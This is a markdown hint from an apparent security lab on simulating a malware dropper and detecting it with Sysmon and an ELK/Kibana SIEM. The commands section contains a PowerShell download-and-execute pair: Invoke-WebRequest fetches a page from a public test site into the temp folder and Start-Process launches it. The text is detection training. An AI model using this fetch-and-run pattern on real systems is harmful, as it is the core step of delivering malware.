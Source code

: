 # Hint 02: Malware Detection (Simulated)

---

## 🎯 Objective

The goal of this simulation is to mimic the behavior of a malware dropper — a script that downloads and executes a remote payload — and detect this activity through logs generated by Sysmon and visualized in Kibana via the ELK stack.

This is a **safe simulation** that does not use real malware, but helps us understand how malware activity is logged and detected by endpoint logging tools and SIEM platforms.

---

## 🛠️ Tools Involved

| Tool         | Role                                               |
|--------------|----------------------------------------------------|
| PowerShell   | Executes the simulated dropper                     |
| Sysmon       | Captures process creation and network connections  |
| Winlogbeat   | Forwards Windows logs to ELK                       |
| ELK (Kibana) | SIEM interface used for analyzing collected logs   |

---

## 🧪 Commands Used (Windows PowerShell)

We used the following PowerShell commands on the Windows VM:

```powershell
Invoke-WebRequest -Uri "http://testphp.vulnweb.com" -OutFile "$env:TEMP\testfile.html"
Start-Process "$env:TEMP\testfile.html"

